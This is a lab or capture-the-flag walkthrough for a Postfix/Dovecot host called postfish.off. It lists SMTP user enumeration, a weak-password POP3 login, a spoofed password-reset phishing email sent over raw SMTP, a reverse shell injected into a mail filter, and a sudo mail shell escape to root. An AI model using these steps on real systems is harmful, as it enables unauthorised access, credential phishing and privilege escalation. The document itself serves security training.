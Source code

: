 # Box: 192.168.119.137

---

## System Info
- **Hostname:** postfish.off  
- **IP:** 192.168.119.137  
- **OS/Tech:** Ubuntu (Dovecot, Postfix, Nginx)

---

## Credentials
- **User:** _to discover_  
- **Password:** _to discover_

---

## Service Enumeration (`nmap -sC -sV`)
| Port   | State | Service       | Version                                        |
| ------ | ----- | ------------- | ---------------------------------------------- |
| **22** | open  | ssh           | OpenSSH 8.2p1 Ubuntu 4ubuntu0.1                |
| **25** | open  | smtp          | Postfix ESMTP (Ubuntu)                         |
| **80** | open  | http          | nginx 1.10.3                                   |
| **110**| open  | pop3          | Dovecot pop3d (Ubuntu)                         |
| **143**| open  | imap          | Dovecot imapd (Ubuntu)                         |
| **993**| open  | ssl/imap      | Dovecot imapd (Ubuntu)                         |
| **995**| open  | ssl/pop3      | Dovecot pop3d (Ubuntu)                         |

---

## Observations
- **HTTP (80):** nginx default page; host alias `postfish.off` required in `/etc/hosts`.  
- **SMTP (25):** Postfix; banner shows `postfish.off`.  
- **POP3/IMAP:** No credentials yet; can connect but need valid mailbox.  
- **SSH (22):** no direct access.

---

## Exploitation

### 1. Enumerate mail users via SMTP
```bash
smtp-user-enum -M VRFY   -U /opt/SecLists/Usernames/Names/names.txt   -t postfish.off
```
```
bin exists
hr exists
irc exists
mail exists
man exists
root exists
sales exists
sys exists
```
- **Valid users:** `hr`, `sales` (likely employees).

### 2. Access `sales` mailbox via POP3
```bash
nc postfish.off 110
```
```text
+OK Dovecot ready.
USER sales
+OK
PASS sales
+OK Logged in.
LIST
+OK 1 messages:
1 683
.
RETR 1
... email content ...
```
- Found email from `it@postfish.off` about password resets.

### 3. Phish `brian.moore` via SMTP
```bash
nc postfish.off 25
HELO attacker.com
MAIL FROM:<it@postfish.off>
RCPT TO:<brian.moore@postfish.off>
DATA
Subject: Password Reset

Hi Brian,

Please follow this link to reset your password:
http://192.168.119.137/reset

Regards,
IT
.
QUIT
```
- Sent reset email; obtained new password for Brian.

### 4. SSH as `brian.moore`
```bash
ssh brian.moore@192.168.119.137
# use the reset password
```

---

## Privilege Escalation

### A) Find world‑readable files
Using `linpeas`:
```
Readable file belonging to root: /etc/postfix/disclaimer
```
- `disclaimer` is writable by Brian.

### B) Abuse mail filter
- Edit `/etc/postfix/disclaimer` to inject a reverse shell.
- Trigger an email to run the filter; catch shell as `filter` user.

### C) Sudo mail abuse
```bash
sudo -l
# filter user can run:
sudo mail --exec='!/bin/bash'
```
- Launch `sudo mail`; you get a root shell.

